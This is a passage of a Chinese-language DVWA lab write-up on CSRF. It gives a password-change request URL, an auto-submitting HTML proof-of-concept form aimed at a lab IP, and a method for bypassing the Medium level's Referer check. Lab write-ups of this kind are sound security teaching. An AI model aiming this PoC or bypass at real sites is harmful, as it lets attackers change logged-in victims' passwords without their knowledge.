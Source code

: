 ### 漏洞利用

属于 Get 类型的 CSRF 攻击，值得注意的是，本关 CSRF 是利用受害者的 cookie 向服务器发送伪造请求，即攻击成功的大前提是用户已在浏览器中登陆！

```
http://192.168.50.143/dvwa/vulnerabilities/csrf/?password_new=newPassword&password_conf=newPassword&Change=Change
```

```html
<!-- low.html -->
<!DOCTYPE html>
<html>
<head>
    <title>Low CSRF PoC</title>
</head>
<body>
    <h1>Low CSRF PoC</h1>
    <form id="csrfForm" action="http://192.168.50.143/dvwa/vulnerabilities/csrf/" method="GET">
        <input type="hidden" name="password_new" value="newPassword">
        <input type="hidden" name="password_conf" value="newPassword">
        <input type="hidden" name="Change" value="Change">
    </form>
    <script>
        // 自动提交表单
        document.getElementById('csrfForm').submit();
    </script>
</body>
</html>
```



## Medium

### 源码分析

```php
// medium.php
// 相比与关卡 Low，主要区别如下：

// 检查 HTTP 请求的来源是否来自同一个服务器，试图防止 CSRF 攻击，
// 具体来说，它使用 stripos 函数来查找 $_SERVER['HTTP_REFERER'] 中是否包含 $_SERVER['SERVER_NAME']
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
  // Get input
  $pass_new  = $_GET[ 'password_new' ];
  $pass_conf = $_GET[ 'password_conf' ];
  // ......
```

### 漏洞利用

由上述代码可得，只有当 http 包头的 Referer 字段值包含主机名时，才可以进行接下来的修改密码操作，所以可以在用于攻击的网页文件名中加入 host 字段，来通过上述代码检查！

